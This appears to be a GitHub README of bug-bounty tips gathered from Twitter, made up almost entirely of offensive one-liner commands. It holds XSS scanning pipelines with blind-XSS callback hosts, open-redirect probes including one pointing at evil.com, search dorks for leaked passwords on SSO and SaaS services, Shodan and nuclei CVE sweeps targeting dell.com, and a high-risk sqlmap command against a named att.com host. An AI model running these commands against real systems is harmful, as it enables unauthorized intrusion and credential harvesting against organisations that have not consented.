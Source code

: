 # BugBountyTIps
Everything about bug bounty tips on twitter

<h2>XSS ONE LINER</h2>

```
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro  | dalfox pipe -b your.xss.ht -o xss.txt
```
## XSS ONE LINER WITH KXSS

```
assetfinder -subs-only domain.com | waybackurls | grep "=" | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe -b https://syarifsajjad.xss.ht/
```

## OPEN REDIRECT ONE LINER

```
subfinder -all -d target.com -silent | waybackurls | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```

## ADMIN PANEL

```
cat hosts.txt | httpx -ports 80,443,8080,8443,8090 -path /web-console/ -status-code -title -nc -t 250 -mc 200 
```

## RANDOM BUG BOUNTY HUNTING (Special tweet from Orwa Atyat) :)

```
*OKTA*
okta.com password NOT help.okta NOT developer.okta NOT support.okta NOT www.okta
*ServiceNOW*
service-now password
*Jfrog*
jfrog.io password
*onelogin*
onelogin.com password
*Atlassian*
atlassian.net password NOT domain.atlassian NOT user.atlassian NOT help.atlassian NOT
*Snow..*
snowflakecomputing.com password
*Slack*
slack.com  password
*Zendesk*
zendesk.com password NOT www.zendesk
*SharePoint*
sharepoint.com password
*Auth0*
auth0.com password NOT docs.auth0
```

## XSS PARAMSPIDER + GF XSS + DALFOX

```
python paramspider --domain target.com -o output
cat output | gf xss > gf_xss.txt
cat gf_xss.txt | dalfox -b yoursite.xss.ht
```
## SHODAN + NUCLEI = JUICY CVE

```
echo 'ssl:"dell.com" 200' | uncover -e shodan | httpx -silent | nuclei --severity medium,high,critical
```
## GIT DORKS

```
https://github.com/search?o=desc&q=att.com&s=indexed&type=Code
```

## WP OPEN REDIRECT

```
 cat status.txt | grep "WordPress" | cut -d ' ' -f1 | httpx -path "/?aiowpsec_do_log_out=1&after_logout=https://evil.com" -sc --title -location
```

## sitemap.xml SQLi

```
python sqlmap.py -u "http://origin-www.att.com/sitemap.xml?offset=1" -p offset --level 5 --risk 3 --dbms=MySQL --hostname --test-filter="MySQL >= 5.0.12 stacked queries"
```

